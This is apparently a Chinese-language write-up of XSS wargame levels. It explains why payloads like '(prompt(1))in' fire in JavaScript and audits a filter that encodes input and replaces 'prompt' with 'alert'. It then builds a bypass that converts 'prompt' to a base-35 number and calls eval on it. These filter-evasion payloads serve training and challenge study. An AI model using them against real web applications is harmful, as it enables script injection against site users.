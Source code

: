 * payload --- WP
```
"(prompt(1))in"
```

* in运算符能这么用？
* 在js中,（prompt(1)instaneof"1"和（prompt(1)）in"1"是可以成功弹窗的，其中双引号里面的1可以是任何字符，这里的in或者instanceof是运算符，所以可以有这样的语法结构。

* payload ---WP2

```
"(prompt(1))instanceof"
"(prompt(1))in"
```

## C

```js
function escape(input) {
    input = encodeURIComponent(input).replace(/'/g, '');
    input = input.replace(/prompt/g, 'alert');
    return '<script>' + input + '</script> ';
}     
```

* 代码审计：

    A题的翻版，换了顺序，不能用`'`来阻隔`prompt`了。

    由于直接将input放在了`<script>`标签的里面，所以可以配合eval和加解码来绕过。

* 但是`"`被encode了，`'`又被替换了，所以不能用字符串形式的加解码。或者将字符串变换成数字。

* parseInt(string, radix)  ![parseInt](_XSS-medium_image/parseInt.png)

* NumberObject.toString(radix)

* 构造payload:
```html
<script type="text/javascript">
	var num = parseInt("prompt", 35);// 括号不能编码
	document.write(num); // 1354620604
	document.write(num.toString(35));
</script>
```
* payload:
```js
eval((1354620604).toString(35))(1)
```
